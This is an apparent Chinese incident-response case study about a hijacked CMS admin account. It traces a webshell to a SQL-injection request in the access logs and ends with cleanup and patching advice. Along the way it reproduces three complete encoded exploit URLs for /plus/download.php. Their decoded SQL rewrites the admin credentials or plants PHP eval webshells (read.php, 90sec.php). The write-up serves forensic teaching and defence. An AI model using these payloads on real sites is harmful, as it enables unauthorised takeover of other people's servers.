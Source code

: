 ## 第8篇：管理员账号被篡改

​		你是某一个网站的管理员，有一天，你的管理员账号admin却登录不了，进入数据库查看，原来管理员账号用户名不存在了，却多了另外一个管理员用户名。不对，不是新增了管理员，而是你的管理员用户名被篡改了。

### 现象描述

前后端分离，后台只允许内网访问，管理员账号admin却依然被多次被篡改

### 问题处理

**1、网站webshell**

在针对网站根目录进行webshell扫描，发现存在脚本木马，创建时间为2018-06-13 04:30:30

![](images/8-1.png)

**2、 定位IP** 

通过木马创建时间， 查看网站访问日志，定位到IP为：180.xx.xx.3

![](images/8-2.png)

**3、关联分析**

全局搜索与该IP有关的操作日志：

![](images/8-3.png)

在脚本木马生成前，有两条比较可疑的访问日志吸引了我们的注意：

`172.16.1.12 180.xx.xxx.3 - - [10/Jun/2018:08:41:43 +0800] "GET /plus/download.php?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=97&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=32&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=114&arrs2[]=101&arrs2[]=97&arrs2[]=100&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=120&arrs2[]=93&arrs2[]=41&arrs2[]=59&arrs2[]=101&arrs2[]=99&arrs2[]=104&arrs2[]=111&arrs2[]=32&arrs2[]=109&arrs2[]=79&arrs2[]=111&arrs2[]=110&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=32&arrs2[]=87&arrs2[]=72&arrs2[]=69&arrs2[]=82&arrs2[]=69&arrs2[]=32&arrs2[]=96&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=49&arrs2[]=57&arrs2[]=32&arrs2[]=35 HTTP/1.1" 200 67`  

`172.16.1.12 180.xx.xxx.3 - - [10/Jun/2018:08:41:43 +0800] "GET /plus/ad_js.php?aid=19 HTTP/1.1" 200 32` 

对这段POC进行解码，我们发现通过这个poc可以往数据库中插入数据，进一步访问/plus/ad_js.php?aid=19 即可在plus目录生成read.php脚本文件。

![](images/8-4.png)

解码后：

cfg_dbprefixmyad` SET `normbody` = '<?php file_put_contents(''read.php'',''<?php eval($_POST[x]);echo mOon;?>'');?>' WHERE `aid` =19 #  

综上，可以推测/plus/download.php中可能存在SQL注入漏洞，接下来，收集网上已公开的有以下3种EXP进行漏洞复现。

#### 漏洞复现

**利用方式一：修改后台管理员**

1、新建管理员账号test/test123789，可以成功登录网站后台

2、构造如下注入SQL语句：

`cfg_dbprefixadmin SETuserid='spider',pwd`='f297a57a5a743894a0e4' where id=19 #`

修改后台管理员为：用户名spider，密码admin。

（3）对应的EXP:

`？open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=97&arrs2[]=100&arrs2[]=109&arrs2[]=105&arrs2[]=110&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=117&arrs2[]=115&arrs2[]=101&arrs2[]=114&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=61&arrs2[]=39&arrs2[]=115&arrs2[]=112&arrs2[]=105&arrs2[]=100&arrs2[]=101&arrs2[]=114&arrs2[]=39&arrs2[]=44&arrs2[]=32&arrs2[]=96&arrs2[]=112&arrs2[]=119&arrs2[]=100&arrs2[]=96&arrs2[]=61&arrs2[]=39&arrs2[]=102&arrs2[]=50&arrs2[]=57&arrs2[]=55&arrs2[]=97&arrs2[]=53&arrs2[]=55&arrs2[]=97&arrs2[]=53&arrs2[]=97&arrs2[]=55&arrs2[]=52&arrs2[]=51&arrs2[]=56&arrs2[]=57&arrs2[]=52&arrs2[]=97&arrs2[]=48&arrs2[]=101&arrs2[]=52&arrs2[]=39&arrs2[]=32&arrs2[]=119&arrs2[]=104&arrs2[]=101&arrs2[]=114&arrs2[]=101&arrs2[]=32&arrs2[]=105&arrs2[]=100&arrs2[]=61&arrs2[]=49&arrs2[]=57&arrs2[]=32&arrs2[]=35` 

执行EXP后，相应后台数据库表变为如下：

![](images/8-5.png)

（4）因此相应后台登录用户变为spider密码admin

**利用方式二：通过/plus/mytag_js.php文件生成一句话木马php**

（1）如：构造如下注入SQL语句：

`cfg_dbprefixmytag(aid,expbody,normbody) VALUES(9013,@\','{dede:php}file_put_contents(''90sec.php'',''<?php eval($_POST[guige]);?>'');{/dede:php}') # @\'``

（2）对应的EXP:

`?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=116&arrs2[]=97&arrs2[]=103&arrs2[]=96&arrs2[]=32&arrs2[]=40&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=44&arrs2[]=101&arrs2[]=120&arrs2[]=112&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=44&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=41&arrs2[]=32&arrs2[]=86&arrs2[]=65&arrs2[]=76&arrs2[]=85&arrs2[]=69&arrs2[]=83&arrs2[]=40&arrs2[]=57&arrs2[]=48&arrs2[]=49&arrs2[]=51&arrs2[]=44&arrs2[]=64&arrs2[]=96&arrs2[]=92&arrs2[]=39&arrs2[]=96&arrs2[]=44&arrs2[]=39&arrs2[]=123&arrs2[]=100&arrs2[]=101&arrs2[]=100&arrs2[]=101&arrs2[]=58&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=125&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=57&arrs2[]=48&arrs2[]=115&arrs2[]=101&arrs2[]=99&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=103&arrs2[]=117&arrs2[]=105&arrs2[]=103&arrs2[]=101&arrs2[]=93&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=123&arrs2[]=47&arrs2[]=100&arrs2[]=101&arrs2[]=100&arrs2[]=101&arrs2[]=58&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=125&arrs2[]=39&arrs2[]=41&arrs2[]=32&arrs2[]=35&arrs2[]=32&arrs2[]=64&arrs2[]=96&arrs2[]=92&arrs2[]=39&arrs2[]=96` 

（3）执行EXP后，将向数据库表dede_mytag中插入一条记录，

![](images/8-6.png)

（4）执行如下语句，在/plus目录下生成90sec.php一句话木马 http://www.xxxx.com/plus/mytag_js.php?aid=9013

**利用方式三：使/plus/ad_js.php文件变为一句话木马php**

（1）如：构造如下注入SQL语句：

`cfg_dbprefixmyadSETnormbody= '<?php file_put_contents(''read.php'',''<?php eval($_POST[x]);echo mOon;?>'');?>' WHEREaid` =19 #`  

（2）对应的EXP:

`/plus/download.php?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=97&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=32&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=102&arrs2[]=105&arrs2[]=108&arrs2[]=101&arrs2[]=95&arrs2[]=112&arrs2[]=117&arrs2[]=116&arrs2[]=95&arrs2[]=99&arrs2[]=111&arrs2[]=110&arrs2[]=116&arrs2[]=101&arrs2[]=110&arrs2[]=116&arrs2[]=115&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=114&arrs2[]=101&arrs2[]=97&arrs2[]=100&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=120&arrs2[]=93&arrs2[]=41&arrs2[]=59&arrs2[]=101&arrs2[]=99&arrs2[]=104&arrs2[]=111&arrs2[]=32&arrs2[]=109&arrs2[]=79&arrs2[]=111&arrs2[]=110&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=32&arrs2[]=87&arrs2[]=72&arrs2[]=69&arrs2[]=82&arrs2[]=69&arrs2[]=32&arrs2[]=96&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=61&arrs2[]=49&arrs2[]=57&arrs2[]=32&arrs2[]=35`

（3）执行EXP后，将向数据库表dede_myad中插入一条记录。

（4）进一步访问/plus/ad_js.php?aid=19 即可在plus目录生成read.php脚本文件。

------

如何清除？

1、删除网站目录中的webshell

2、清除dede_myad、dede_mytag数据库表中插入的SQL语句，防止再次被调用生成webshell。

如何防御？

网站采用开源CMS搭建，建议及时对官方发布的系统补丁以及内核版本进行升级。

